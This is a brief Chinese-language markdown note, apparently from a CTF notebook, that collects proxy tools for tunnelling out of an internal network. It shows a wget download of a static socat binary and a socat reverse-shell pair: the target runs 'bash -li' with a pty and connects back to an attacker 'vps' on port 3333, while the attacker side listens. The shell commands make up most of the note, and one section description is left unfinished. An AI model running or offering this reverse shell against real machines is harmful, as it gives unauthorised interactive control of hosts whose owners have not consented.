 # 记录一些代理工具

>目前是用与ctf的内网环境代理出内网。

### socat
>适合?。。。

地址：http://www.iteait.com/archives/603

socat下载:地址
https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat

直接wget https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat

```

靶机：socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:vps:3333

主机：socat file:`tty`,raw,echo=0 tcp-listen:3333
```










